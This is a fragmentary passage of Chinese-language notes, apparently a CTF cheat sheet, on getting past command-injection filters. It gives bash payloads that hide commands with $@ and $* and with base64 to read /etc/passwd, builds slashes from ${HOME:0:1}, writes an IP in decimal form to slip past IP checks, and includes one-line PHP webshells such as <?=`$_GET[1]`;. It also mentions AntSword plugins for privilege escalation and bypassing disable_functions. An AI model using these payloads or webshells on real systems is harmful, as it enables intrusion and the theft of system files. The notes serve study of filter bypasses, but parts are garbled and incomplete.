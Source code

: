 ```bash
```



- 位置参数的特殊变量`$@`和`$*`  

`$@`和`$*`代表全部的位置参数，当没有位置参数时，扩展为空。如，``

```bash
who$@ami
who$*ami
```

### 绕过管道符`|`

```bash
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```

### 反斜杠`\`和斜杠`/`绕过

```bash
# ${varname:offset:length} 子字符串
cat ${HOME:0:1}etc${HOME:0:1}passwd

# d
cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
```

### 绕过IP限制

```bash
127.0.0.1 == 2130706433
```

### 绕过长度限制

```
<?=`$_GET[1]`;
<? `$_GET[1]`;


<?php
highlight(__FILE__);

$code = $_GET['code'];
if(strlen($code)<=1) {
	eval("?>".$code)
}



任意代码执行，13-14

蚁剑插件 提权 绕过disable_functions

disable_functions openbasedir

$_GET[1]
```
从代码执行到命令执行
https://r0yanx.com/2021/07/18/%E8%AE%B0%E4%B8%80%E9%81%93%E9%99%90%E5%88%B6%E9%95%BF%E5%BA%A6%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E7%9A%84CTF%E8%A7%A3%E9%A2%98%E8%BF%87%E7%A8%8B/
